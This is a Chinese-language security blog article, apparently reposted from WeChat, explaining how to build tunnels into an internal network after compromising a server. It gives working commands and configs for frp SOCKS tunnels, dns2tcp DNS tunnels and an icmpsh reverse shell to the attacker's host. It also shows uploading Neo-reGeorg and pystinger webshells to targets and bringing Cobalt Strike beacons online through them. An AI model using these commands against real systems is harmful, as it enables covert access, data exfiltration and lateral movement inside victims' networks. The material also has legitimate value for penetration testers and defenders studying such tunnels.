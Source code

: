 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/IeH06p7pkQ3lmOehGLUWLg)

> 当拿到权限之后，做完本地信息收集，最重要的就是做个隧道，对内网进行下一步攻击，这里简单介绍几个常用的工具，主要针对于出网和不出网两种情况。

出网情况
----

拿到服务器权限之后，遇见这种机器，十分简单，针对不同情况搭建不同隧道，为了速度可以建立 sockets 隧道、为了隐蔽可以使用 dns 隧道、icmp 隧道等，本文简单介绍几个常用工具。

### frp

frp 是一个专注于内网穿透的高性能的反向代理应用，支持 TCP、UDP、HTTP、HTTPS 等多种协议。可以将内网服务以安全、便捷的方式通过具有公网 IP 节点的中转暴露到公网。

项目地址：https://github.com/fatedier/frp/

下载之后，我们只需要关注四个文件即可：

*   frps
    
*   frps.ini
    
*   frpc
    
*   frpc.ini
    

修改 frpc.ini，这里搭建 sockets 隧道，上传至目标服务器启动即可。

```
./frpc -c frpc.ini
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyicWuia0znFqu24ROITL2sUUCeJFXukIYT7bOYFO49U4WbeyTBgLLr9ZhQ/640?wx_fmt=jpeg)

服务端根据 frps.ini 修改端口

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyicJCbN99MWlDgNxhqESsekaxxjuPVSFT7sEFsaicx02OYk6Ye88ZL6NqQ/640?wx_fmt=jpeg)

启动监听

```
./frps -c frps.ini
```

即可建立 sockets 隧道，利用 Proxifierprox 等，即可全局代理隧道，访问目标主机内网。

### **dns**

这个比较麻烦需要准备一个域名，和一台 DNS 服务器，在域名解析添加一条 NS 记录和一条 A 记录。举个例子，域名是 123.com，添加一个子域名 a.123.com，且类型为 NS，并将 NS 记录指向 b.123.com，然后将 b.123.com 建立 A 记录服务器 IP 即可，利用的工具也很多，本文简单介绍 dns2tcp。

```
a.123.com NS b.123.com
b.123.com A 1.1.1.1
```

项目地址：https://github.com/HEYAHONG/dns2tcp

**客户端**

```
dns2tcpc -r nc -z a.123.com 1.1.1.1 -l 8888 -d 2  
-r 后接服务名称任意换, 本文用nc
-z 后接NS记录的网址
-l 后接本地端口
```

服务端

修改 dns2tcpd.conf，

```
listen = 0.0.0.0
port = 53
user = root
chroot = /home/
domain = a.123.com
key = 123
resources = ssh:127.0.0.1:22,smtp:127.0.0.1:25,socks:127.0.0.1:1080,http:127.0.0.1:80,https:127.0.0.1:8080
```

然后执行，dns 隧道就搭建好了，利用 nc 进行传输文件即可。

```
dns2tcpd -F -d 3 -f /home/dns2tcpd.conf
```

建立传输

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyicKibJ6J7vbnWhicVfpsjypdJj1yTDylolexbJfGrriaRCVxwfZsYYc9nIQ/640?wx_fmt=jpeg)

目标主机监听并接受文件即可。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyic0dngCKiaaic4ad8r77vfTGhkibIL0YBfrlQUwT0Q9AUnzDMCQWWDGuJcg/640?wx_fmt=jpeg)

### icmp

icmp 隧道主要因为大部分防火墙不会屏蔽 ping ，所以可以将流量封装在 icmp 进行传输，这种速度跟 sockets 相比太慢了，特殊情况才会使用。

项目地址：https://github.com/inquisb/icmpsh

服务端：

python icmpsh_m.py ip 目标 ip

目标机

```
icmpsh.exe -t 目标ip
```

即可反弹 icmp 隧道 shell 回来。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyicCqe3VWiarPg6v1hPsYAn7LqVmmaqicWEG9ibY65K9N3VsunHvWUsOOCibg/640?wx_fmt=jpeg)

不出网情况
-----

拿到服务器权限之后，遇见这种机器，只能利用基于 webshell 的代理，只需要将 webshell 上传到目标主机即可，然后建立 tcp 连接，主要利用 session 来识别不同的的 tcp 连接，我们攻击监听 tcp，将数据 post 提交到 webshell 即可进行传输，本文简单介绍两个常用的。

### Neo-reGeorg

**Neo-reGeorg** 相当于是 reGeorg 的升级版，有了更强的隐蔽性，原理都是相同的，常用于 webshell 代理流量，进而进行内网渗透。

项目地址：https://github.com/L-codes/Neo-reGeorg

首先需要设置密码，生成各种类型 webshell，并上传至目标服务器

```
python neoreg.py generate -k password
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyicvXc63QPXh2p1Gh9kTuYttQBBASVUa7vWibepiau6eRgSR61mfKmAEVeQ/640?wx_fmt=jpeg)

上传至服务器即可，然后启动监听即可

```
python neoreg.py -k password -u http://1.1.1.1/tunnel.php
```

最后挂上 sockets 代理即可访问内网。

### pystinger

毒刺 (pystinger) 通过 webshell 实现内网 socks4 代理，并且可以利用 pystinge 实现各种 cs\msf 上线，目前仅支持 php、jsp(x)、aspx.

项目地址：https://github.com/FunnyWolf/pystinger

这个工具比较强大，这里可以直接上线 cs，简单介绍如何搭建 socks4 以及 cs 上线。

socks4 隧道搭建：

首先上传 proxy.php，然后上传 stinger_server.exe 到目标服务器，并 start 命令运行该程序

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyicqGO5iczfUhLFAHcRZD12tAiciaUuhybP06iaFIcXFD7RXOjDd4j3551bXQ/640?wx_fmt=jpeg)

最后在我们的服务器执行

```
./stinger_client -w http://1.1.1.1/proxy.php -l 0.0.0.0 -p 60000
```

即可建立 socks4 隧道，利用 Proxifierprox 等，访问目标主机内网。

cs 上线：

前面大体相同，首先上传 proxy.php，然后上传 stinger_server.exe 到目标服务器，启动利用冰蝎 start 启动即可

我们的服务器也需要进行监听

```
./stinger_client -w http://1.1.1.1/proxy.php -l 0.0.00 -p 60000
```

然后 cs 进行监听，端口填写 60020

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyicUt5bxu1iaZNR2EooPgpnD1L1s3TUfDibJvNc0iam0oLvKYhrKovQOATmw/640?wx_fmt=jpeg)

进而利用 cs 生成 powershell

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyic24Fx9VqUBMDDmAkD3JTxHSyejwZw1mbFDvNkklfCsHCicGibTmQmC8iaQ/640?wx_fmt=jpeg)

执行可以利用 pystinger，进行不出网主机上线。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyicm3bm2UibszTAMS5fvXeibZhF2siaFFbohMq9rW4dFiaVGaTleadIR3Y08g/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39et1eibyCN47vicZaWTArxyicJ9Bz1Kqa0sia5Ub5A4SqwwfxTkenQJtpRH5kdWRrxVpfBrFdlcqQ59g/640?wx_fmt=jpeg)

End
---

**这里只是抛砖引玉，引出一些在之前工作中针对于不出网以及出网主机，用过最多的几个隧道代理工具，还请各位大佬勿喷，有更好的工具多补充，共同交流，这样我们才能共同成长，格拉德威尔曾说过：“人们眼中的天才之所以卓越非凡，并非天资超人一等，而是付出了持续不断的努力。1 万小时的锤炼是任何人从平凡变成世界级大师的必要条件 “。**

![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR38Tm7G07JF6t0KtSAuSbyWtgFA8ywcatrPPlURJ9sDvFMNwRT0vpKpQ14qrYwN2eibp43uDENdXxgg/640?wx_fmt=gif)

![](http://mmbiz.qpic.cn/mmbiz_png/3Uce810Z1ibJ71wq8iaokyw684qmZXrhOEkB72dq4AGTwHmHQHAcuZ7DLBvSlxGyEC1U21UMgSKOxDGicUBM7icWHQ/640?wx_fmt=png&wxfrom=200) 交易担保 FreeBuf+ FreeBuf + 小程序：把安全装进口袋 小程序

精彩推荐

  

  

  

  

****![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib2xibAss1xbykgjtgKvut2LUribibnyiaBpicTkS10Asn4m4HgpknoH9icgqE0b0TVSGfGzs0q8sJfWiaFg/640?wx_fmt=jpeg)****

[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR3icpSmNbdiaVpmTEfDHJFoS2OIO0ibau3Xo0W3W5icSIT9hIQY4gmlK4nOY8jcVq2hngIe7Fug8w6lHyQ/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484287&idx=1&sn=16a9b2dc0e205a0e5fe86ae5cae9fe2e&scene=21#wechat_redirect)[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR39823fgk2Py1fbU5wCoewwO0AKFIGmCLF6bY37GDicGMDRicgQf6xW1jtjY8Raby8RjiauX5205Zg8Dg/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484370&idx=1&sn=8b79701a2936e04e390f165344e5fcdc&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38zicMqOsJkQvPpKaPxqjyZ7deMd3Oj2po4iclibkAAzPLIHN0KQpUYHsrhB0Zr9GzsFGzwQ6cEZK0xw/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247485015&idx=1&sn=f4d53ab1890ba767f16c9fb7dde98614&scene=21#wechat_redirect)[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR395MJ3ibGiapKdwibvJEt7GcNUQye5jkUUee36y34MlQnTJMMJj7VlLR9ssECeSEzDU5HqD7MicfAaoFg/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484953&idx=1&sn=746a4872efe570131f9208600d50e936&scene=21#wechat_redirect)[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR3icf8XBadpw5Ldchfo3ic9l4FtYPbq8ka1zKl1sXr080NicwuGNE7p78LGJulKS9kgH9v24BApl5eTTg/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484931&idx=1&sn=5b40049403f5ca447f2f99ebe43ece6d&scene=21#wechat_redirect)

**************![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR3icF8RMnJbsqatMibR6OicVrUDaz0fyxNtBDpPlLfibJZILzHQcwaKkb4ia57xAShIJfQ54HjOG1oPXBew/640?wx_fmt=gif)**************